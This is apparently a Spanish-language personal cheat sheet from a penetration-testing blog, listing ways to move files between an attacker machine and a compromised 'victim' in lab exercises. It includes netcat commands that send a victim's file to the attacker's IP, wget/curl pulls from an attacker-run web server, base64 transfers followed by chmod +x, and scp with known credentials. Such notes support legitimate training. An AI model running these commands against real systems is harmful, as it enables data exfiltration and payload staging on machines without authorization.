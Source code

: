 ```yaml
---
title: Pasar Archivos
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajon Verde]
tags: [Linux, Transferencia Archivos]
---
```

## Maneras de pasar archivos entre máquinas

En máquina víctima recuerda pasarte a un directorio con permiso de escritura, tanto en `/tmp` como en `/shm` no hay problema.

---

Para pasar archivo de máquina víctima a la mía:
```  
> nc -nlvp <puerto> > backup.tgz  
```
Lo anterior en mi máquina.  
Ahora desde la víctima:  
```
> nc <miIp> <miPuerto> < <archivo>
```
-----------------
Ahora desde servidor **python**:  
Me creo servidor  
```
> python3 -m http.server <puerto> 
```
Y ya en máquina víctima desde  una carpeta con capacidad de escritura(/tmp o /shm por ejemplo):  
```
> wget http://<miIp>:<puerto>/<archivo> (si es puerto 80 no hace falta ponerlo).
```

Ó;  
```
> curl http://miIp/<archivo> --output <ruta>
```
-------------------
Desde conexión **ftp** establecida en máquina víctima:  
```
> prompt off (para que no pregunte)
> mget * (descargar todo)
> exit 
```
Si quisiera subir al ftp víctima:  
```
put  <nameArchivo> (archivo que este en carpeta desde donde me conecté)
```
Y ya la tendríamos sin hacer nada más.

-----------------
Si no hubiera ni nc, ni curl, ni wget:  
```
> base64 -w 0 <nombreArchivo> | xclip -sel clip
```
Ó;  
```
> base64 -w 0 <name>; echo (y copias)
```
Y en máquina destino:
```
> echo <cadenaCopiada> | base64 -d > <name>
```
Si es ejecutable recuerda: 
```
> chmod +x <ejecutable>
```
Contexto: lo hicimos en GOODGAMES para script de escaneo de puertos

----------------------
Si te sabes las credenciales por **ssh** tenemos la herramienta scp:  
```
> scp <user>@><ip>:<rutaDesdeElHomedelUser> <nameExportacion>
por ejemplo:
> scp tomy@10.10.11.152:user.txt user.txt
```
----------------------
Pasar archivos de un windows a un linux, mi parrot por ejemplo, visto JSON. Esta información la situaremos en el Post de PasarArchivos en carpeta Windows.

